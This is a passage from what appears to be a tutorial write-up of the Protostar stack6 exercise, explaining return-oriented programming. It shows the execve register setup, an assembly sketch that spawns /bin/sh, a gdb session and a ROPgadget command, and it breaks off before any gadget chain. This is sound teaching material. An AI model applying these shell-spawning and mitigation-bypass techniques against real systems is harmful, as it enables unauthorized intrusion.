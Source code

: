 If this all sounds kind of hard, then you're not alone - it is. Why would you choose to use ROP over ret2libc?! In a hardened system, you might not have access to system at all (i.e. it might have been compiled out), or you might be up against an ASCII-armoured system [7].

## Exploitation
### Setup

So how do you figure out which gadgets you need to use? This will depend on what you want to do. In our case, we're trying to execute an arbitrary program (just like with ret2libc) and the way we are going to do this is by using the `execve` syscall. From the man-page we need to setup a few registers for this to work and then perform a syscall interrupt:

```
EAX = 11 (or 0x0B in hex) – The execve syscall number
EBX = Address in memory of the string “/bin/sh”
ECX = Address of a pointer to the string “/bin/sh”, for our purposes
EDX = null, for our purposes
```

In order to figure out which gadgets we should use we will write our payload in assembly so that it will achieve the above steps, and then attempt to find the most relevant gadgets. Step one, write the assembly:

```arm
xor  edx, edx
push edx
mov  ecx, esp
mov  eax, 0xb
push 0x00     <---- fix this to contain /sh\x00
push 0x00     <---- fix this to contain /bin
mov  ebx, esp
int  0x80
```

Step two would be finding our gadgets! First lets look at the shared libraries that this binary is linking to by using gdb, so that we can search them for gadgets:
```bash
$ gdb -q ./stack6 
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run
Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
(gdb) info sharedlibrary 
From        To          Syms Read   Shared Object Library
0xb7fe3830  0xb7ff988f  Yes (*)     /lib/ld-linux.so.2
0xb7eada50  0xb7fa14cc  Yes (*)     /lib/libc.so.6
```

No surprises there, libc is everpresent! Now we basically just have to find gadgets in libc, and for that I used a tool called ROPgadget[8]. After we download libc from the protostar machine, run `ROPgadget --binary ../bin/libc.so.6 > libc_gadgets.txt` to extract gadgets from libc. And now let the most arduous process known to man begin - finding gadgets for our shellcode!

### Exploitation
